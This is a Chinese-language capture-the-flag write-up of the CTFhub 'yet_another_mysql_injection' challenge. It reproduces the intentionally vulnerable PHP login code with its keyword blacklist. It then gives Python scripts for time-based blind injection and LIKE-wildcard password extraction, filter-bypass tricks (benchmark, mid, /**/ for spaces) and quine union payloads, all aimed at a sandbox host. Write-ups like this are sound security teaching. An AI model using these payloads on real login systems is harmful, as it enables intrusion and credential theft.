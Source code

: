 # yet_another_mysql_injection

进入环境，先随便输入用户名和密码，显示只有admin可以登录

![image-20240324113951117](CTFhub%E9%A2%98%E8%A7%A3.assets/image-20240324113951117.png)

那就用户名密码都改成admin试试，显示hacker，后来发现是密码不能为admin，密码改为其它的显示something wrong

![image-20240324114025699](CTFhub%E9%A2%98%E8%A7%A3.assets/image-20240324114025699.png)

![image-20240324114059351](CTFhub%E9%A2%98%E8%A7%A3.assets/image-20240324114059351.png)

ctrl+u查看页面源代码，发现

![image-20240324114220847](CTFhub%E9%A2%98%E8%A7%A3.assets/image-20240324114220847.png)

访问source发现给出了源码

```php
<?php
include_once("lib.php");
function alertMes($mes,$url){
    die("<script>alert('{$mes}');location.href='{$url}';</script>");
}

function checkSql($s) { # 过滤了很多东西，密码为admin显示hacker的原因也在这
    if(preg_match("/regexp|between|in|flag|=|>|<|and|\||right|left|reverse|update|extractvalue|floor|substr|&|;|\\\$|0x|sleep|\ /i",$s)){
        alertMes('hacker', 'index.php');
    }
}

if (isset($_POST['username']) && $_POST['username'] != '' && isset($_POST['password']) && $_POST['password'] != '') {
    $username=$_POST['username'];
    $password=$_POST['password'];
    if ($username !== 'admin') { # 显示只有用户名为admin时才能登录
        alertMes('only admin can login', 'index.php');
    }
    checkSql($password);
    $sql="SELECT password FROM users WHERE username='admin' and password='$password';"; # sql查询语句
    $user_result=mysqli_query($con,$sql);
    $row = mysqli_fetch_array($user_result);
    if (!$row) {
        alertMes("something wrong",'index.php');
    }
    if ($row['password'] === $password) { # 如果密码正确，那么会直接给出flag
    die($FLAG);
    } else {
    alertMes("wrong password",'index.php');
  }
}

if(isset($_GET['source'])){
  show_source(__FILE__);
  die;
}
?>
```

经过分析，我认为可以使用时间盲注，=号可以用like替换，substr可以使用mid函数替换，/**/可以用来替换空格，benchmark函数可以用来替换sleep函数

```mysql
#! /usr/bin/python3
import requests
import time
url = "http://challenge-83413125beb6e4d2.sandbox.ctfhub.com:10800/index.php"
flag = ""
i = 0
while True:
    i += 1
    for j in range(32,129):
        data = {"username":"admin","password":"1'/**/or/**/if(ascii(mid((select/**/database()),{0},1))like/**/{1},benchmark(700000,md5('A')),benchmark(1,md5('A')))#".format(i,j)}
        start = time.time()
        r = requests.post(url = url, data = data)
        end = time.time() - start
        if end > 2:
            flag += chr(j)
            print(flag)
            break
爆数据库名，不过就三个字符花了好几分钟的时间去爆破
```

```py
#! /usr/bin/python3
import requests
import time
url = "http://challenge-83413125beb6e4d2.sandbox.ctfhub.com:10800/index.php"
flag = ""
i = 0
while True:
    i += 1
    for j in range(32,129):
        data = {"username":"admin","password":"1'/**/or/**/if(ascii(mid((select/**/group_concat(table_name)from(sys.schema_table_statistics_with_buffer.tables)where(table_schema/**/like/**/database())),{0},1))like/**/{1},benchmark(700000,md5('A')),benchmark(1,md5('A')))#".format(i,j)}
        start = time.time()
        r = requests.post(url = url, data = data)
        end = time.time() - start
        if end > 2:
            flag += chr(j)
            print(flag)
            break
这个地方也不知道是哪里写错了，死活不知道咋搞，所以这个路子行不通，也就放弃了，脚本运行半天蹦不出一个字符，就算可以，效率也极其低下
```

查看WP，发现了一种更好的脚本，这种就是直接匹配password，通过like和通配符%

```py
import requests,time
alp = "1234567890abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ~"
def get_pass():
    url = "http://challenge-83413125beb6e4d2.sandbox.ctfhub.com:10800/index.php"
    flag = ""
    while True:
        for i in alp:
            data={"username":"admin","password":f"1'or/**/password/**/like/**/'{flag+i}%'#"}
            resp = requests.post(url=url,data=data)
            time.sleep(0.1)
            if "something wrong" not in resp.text:
                flag+=i
                print(flag)
                break
            elif "~" in i:
                return
get_pass()
```

又发现了一个问题，就是这个题目似乎有点毛病，它随机给出的密码中如果包含in、0x等被过滤掉的字符，那么就根本无法将密码爆破出来，而且输入进去也会被当作非法，提示hacker，就比如

![image-20240324140400273](CTFhub%E9%A2%98%E8%A7%A3.assets/image-20240324140400273.png)

![image-20240324140412546](CTFhub%E9%A2%98%E8%A7%A3.assets/image-20240324140412546.png)

得到密码cafu62gqtqnyhjdbfkftul2yavzalubo，登录后返回flag

还有一个方法是使用qunie，下面是payload，不是很懂，参考文章https://www.cnblogs.com/aninock/p/16467716.html

```
'/**/union/**/select/**/REPLACE(REPLACE('"/**/union/**/select/**/REPLACE(REPLACE("B",CHAR(34),CHAR(39)),CHAR(66),"B")#',CHAR(34),CHAR(39)),CHAR(66),'"/**/union/**/select/**/REPLACE(REPLACE("B",CHAR(34),CHAR(39)),CHAR(66),"B")#')#
```

```
' union select REPLACE(REPLACE('" union select REPLACE(REPLACE("B",CHAR(34),CHAR(39)),CHAR(66),"B")#',CHAR(34),CHAR(39)),CHAR(66),'" union select REPLACE(REPLACE("B",CHAR(34),CHAR(39)),CHAR(66),"B")#')#
```

